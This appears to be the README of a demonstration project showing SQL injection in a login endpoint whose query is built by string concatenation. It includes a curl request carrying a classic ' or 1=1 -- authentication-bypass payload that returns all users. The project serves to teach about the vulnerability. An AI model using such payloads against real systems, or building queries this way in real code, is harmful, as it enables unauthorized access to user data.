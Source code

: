 # About

Project presents a simple SQL Injection attack.
The developer instead of using a prepared statement, decided to concatenate
a string into a query, what can allow a user to perform unwanted operations 
on the database

# REST API

## Successful login

Upon successful login the endpoint returns the email and the ID of the user.

```
curl -X POST \
  http://localhost:8080/login \
  -H 'Content-Type: application/json' \
  -d '{
	"email": "kamil@gmail.com",
	"password": "secretPassword"
}'
```

## SQL Injection to get all users

```
curl -X POST \
  http://localhost:8080/login \
  -H 'Content-Type: application/json' \
  -d '{
	"email": "'\'' or 1=1 -- ",
	"password": ""
}'
```

